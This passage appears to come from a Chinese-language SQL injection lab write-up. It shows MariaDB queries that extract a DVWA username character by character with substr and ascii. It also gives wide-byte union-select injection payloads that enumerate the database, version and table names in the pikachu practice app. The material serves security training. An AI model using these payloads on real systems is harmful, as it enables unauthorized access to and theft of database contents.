 ```bash
+-------+
| admin |
+-------+
1 row in set (0.002 sec)

MariaDB [dvwa]> select substr((select user from users limit 0,1),1,1);
+------------------------------------------------+
| substr((select user from users limit 0,1),1,1) |
+------------------------------------------------+
| a                                              |
+------------------------------------------------+
1 row in set (0.000 sec)

MariaDB [dvwa]> select ascii(substr((select user from users limit 0,1),1,1));
+-------------------------------------------------------+
| ascii(substr((select user from users limit 0,1),1,1)) |
+-------------------------------------------------------+
|                                                    97 |
+-------------------------------------------------------+
1 row in set (0.000 sec)

```

#### 4. 利用宽字节注入实现“库名 - 表名 - 列名”的注入过程，写清楚注入步骤

a. pikachu中宽字节注入 `kobe運' union select database(),version()#`

![pikachu_database](images/pikachu_database.png)

b. 爆出表名 `kobe運' union select 1,group_concat(table_name) from information_schema.tables where table_schema =database()#`

![pikachu_tables](images/pikachu_tables.png)
